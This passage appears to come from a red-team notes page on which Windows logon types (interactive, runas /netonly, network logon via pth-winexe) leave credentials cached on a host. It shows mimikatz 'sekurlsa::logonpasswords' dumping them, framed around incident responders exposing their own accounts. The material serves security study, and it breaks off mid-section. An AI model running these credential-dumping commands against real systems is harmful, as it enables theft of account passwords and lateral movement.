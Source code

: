 {% code title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endcode %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test2.png)

## Interactive Logon \(2\) via runas and Domain Account

{% code title="responder@victim" %}
```csharp
runas /user:spot@offense cmd
```
{% endcode %}

{% code title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endcode %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test3.png)

## New Credentials \(9\) via runas with /netonly

```csharp
runas /user:low /netonly cmd
```

Note that event logs show the logon of type 9 for the user `mantvydas`, although we requested to logon as the user `low`:

![](../../.gitbook/assets/pwdump-runas-netonly.png)

Logon type 9 means that the any network connections originating from our new process will use the new credentials, which in our case are credentials of the user `low`. These credentials, get cached:

![](../../.gitbook/assets/pwdump-runas-netonly-dump.png)

## Network Logon \(3\) with Local Account

Imagine an Incident Responder is connecting to a victim system using that machine's local account remotely to inspect it for a compromise using pth-winexe:

{% code title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode %}

